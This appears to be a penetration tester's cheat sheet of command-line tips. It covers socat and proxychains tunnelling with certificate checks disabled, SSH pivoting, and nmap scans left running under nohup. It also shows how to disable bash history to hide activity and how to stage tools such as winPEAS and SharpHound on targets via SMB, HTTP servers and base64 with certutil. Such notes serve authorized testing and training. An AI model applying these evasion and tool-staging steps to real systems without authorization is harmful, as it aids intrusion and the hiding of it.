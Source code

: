 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
  
## SSH Pivoting/Tunneling 
- Use `sshuttle` : https://github.com/sshuttle/sshuttle  
- Use `ssh` + `proxychains` :  
  `ssh -D 9999 john@10.10.110.50`
  Then `proxychains <command>`   
  (with the config `socks4 127.0.0.1 9999` in the `proxychains4.conf` file)  


 ## Easily mount a shared folder between host & VM in virtualbox: 
 `mkdir Shared_VMs`  
 `sudo mount -t vboxsf Shared_VMs Shared_VMs`  
           
 ## Leave a command running when the SSH session is disconnected with `nohup`:  
`nohup nmap -Pn -A -p- -oA results_nmap 192.168.210.10-20 &exit`   
   
## Temporarily turn off bash history:  
`unset HISTFILE`  
`set +o history`   
  
## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Attacker-side (Linux). Newlines can be trimmed on Linux using `sed` or `tr`.     
`base64 -w 0 <FILE> | xclip -selection clipboard`  
or `cat SharpHound.exe | base64 | tr -d '\n' > b64Sharphound.txt`  
    
Attacker-side (Windows). Newlines can be trimmed on Linux using `sed` or `tr`.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Target-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Target-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
*(Several techniques are from <https://notes.qazeer.io/general/file_transfer>)*    
  
